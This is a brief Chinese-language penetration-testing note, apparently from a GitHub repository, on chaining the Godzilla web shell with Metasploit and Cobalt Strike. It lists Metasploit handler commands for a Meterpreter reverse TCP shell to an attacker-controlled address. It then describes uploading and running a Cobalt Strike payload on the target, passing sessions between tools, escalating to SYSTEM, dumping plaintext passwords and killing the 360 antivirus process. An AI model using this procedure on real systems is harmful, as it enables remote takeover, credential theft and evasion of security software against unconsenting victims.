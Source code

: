 # CS,msf
哥斯拉联动msf
使用哥斯拉ShellcodeLoder中的meterpreter模块
在攻击机上启动msf
设置
```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.111.128
set lport 9090
run
```
![](vx_images/158736334213604.png)
填入设置的参数,go,msf成功收到
![](vx_images/122669456214226.png)
哥斯拉上线CS
在cs中配置监听器,并生成payload,通过哥斯拉上传至靶机,运行artifact.exe后
会话在CS中上线
![](vx_images/415085497322610.png)
msf->CS
将msf派发到CS
......

msf中getsystem失败,在CS中getsystem获得system权限
![](vx_images/191622934361063.png)
获取明文密码
![](vx_images/558567922191938.png)



可以关闭360的进程

